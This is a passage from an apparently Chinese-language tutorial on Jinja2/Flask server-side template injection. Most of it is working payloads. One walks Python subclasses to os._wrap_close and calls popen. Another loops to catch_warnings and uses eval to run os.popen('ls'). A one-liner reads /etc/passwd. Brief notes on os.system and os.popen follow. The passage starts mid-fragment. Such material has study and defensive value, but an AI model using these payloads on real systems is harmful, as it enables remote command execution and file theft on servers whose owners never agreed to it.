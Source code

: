 ```python

# 需要自己寻找合适的标号来调用接下来我将进一步解释
# 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法
# 通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。
{{" ".__class__.__bases__[0].__subclasses__()[118]}}

# 这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
{{" ".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}

# 此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下。
{{" ".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}

# 此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。
    
"""    
```

{% endraw %}

**执行任意命令**的payload:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}         # poppen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

**读取密码**

```bash
''.__class__.__mro__[-1].__subclasses__()[40]("/etc/passwd").read()
```



**命令执行:**

**1.os.system()**

```bash
用法：os.system(command)
但是用这个无法回显
```

**2.os.popen()**

我们可以用这个

用法：`os.popen(command[,mode[,bufsize]])`
说明：`mode – 模式权限可以是 ‘r’(默认) 或 ‘w’`。
popen方法通过p.read()获取终端输出，而且popen需要关闭close().当执行成功时，close()不返回任何值，失败时，close()返回系统返回值（失败返回1），可见它获取返回值的方式和os.system不同。
